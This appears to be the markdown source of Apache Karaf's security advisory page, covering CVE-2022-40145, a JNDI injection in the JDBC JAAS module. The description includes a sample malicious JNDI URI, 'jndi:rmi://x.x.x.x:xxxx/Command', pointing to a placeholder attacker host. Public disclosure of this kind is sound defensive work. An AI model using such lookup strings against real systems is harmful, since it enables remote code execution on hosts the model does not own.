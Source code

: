 ```yaml
---
title: Apache Karaf security advisories
description: Security information for Apache Karaf
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache Karaf? Send your report to the  [Apache Security Team](mailto:security@apache.org).

# Advisories

## JDBC JAAS LDAP injection ## { #CVE-2022-40145 }

[CVE-2022-40145](./CVE-2022-40145.cve.json)

### Affected

* Apache Karaf versions 4.4.0 before 4.4.2 before 4.3.8


### Description

<span style="background-color: rgb(255, 255, 255);">This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL.<br><br>The function jaas.modules.src.main.java.por</span><span style="background-color: rgb(255, 255, 255);">g.apache.karaf.jass.modules.</span><span style="background-color: rgb(255, 255, 255);">jdbc.JDBCUtils#doCreateDatasou</span><span style="background-color: rgb(255, 255, 255);">rce</span><br><span style="background-color: rgb(255, 255, 255);">use InitialContext.lookup(jndiName</span><span style="background-color: rgb(255, 255, 255);">) without filtering.<br>An user can modify&nbsp;</span><span style="background-color: rgb(255, 255, 255);">`options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE, "osgi:" +&nbsp;</span><span style="background-color: rgb(255, 255, 255);">DataSource.class.getName());` to `options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE,</span><span style="background-color: rgb(255, 255, 255);">"jndi:rmi://x.x.x.x:xxxx/Comma</span><span style="background-color: rgb(255, 255, 255);">nd");` in JdbcLoginModuleTest#setup.</span><br><br><span style="background-color: rgb(255, 255, 255);">This is vulnerable to a remote code execution (RCE) attack when a</span><br><span style="background-color: rgb(255, 255, 255);">configuration uses a JNDI LDAP data source URI when an attacker has</span><br><span style="background-color: rgb(255, 255, 255);">control of the target LDAP server.</span><p>This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7.</p>We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8
